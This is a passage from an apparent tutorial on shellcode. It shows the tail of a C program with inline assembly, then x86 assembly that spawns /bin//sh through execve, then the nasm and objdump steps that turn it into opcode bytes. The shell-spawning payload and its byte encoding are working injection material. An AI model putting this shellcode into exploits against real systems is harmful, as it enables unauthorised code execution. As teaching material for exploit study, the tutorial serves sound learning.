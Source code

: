 ```c

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

#### Extracting shellcode using objdump

We can translate the shellcode into byte code (opcode).

```x86asm
; File name: shellcode.asm
section .text
global _start
_start:
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
xor    ecx, ecx
xor    edx, edx
mov    al, 0xb
int    0x80
```

```console
$ sudo apt-get install nasm 
$ nasm -f elf shellcode.asm
$ objdump -d shellcode.o
shellcode.o:     file format elf32-i386
Disassembly of section .text:
00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	31 c9                	xor    %ecx,%ecx
  11:	31 d2                	xor    %edx,%edx
  13:	b0 0b                	mov    $0xb,%al
  15:	cd 80                	int    $0x80
$ 
```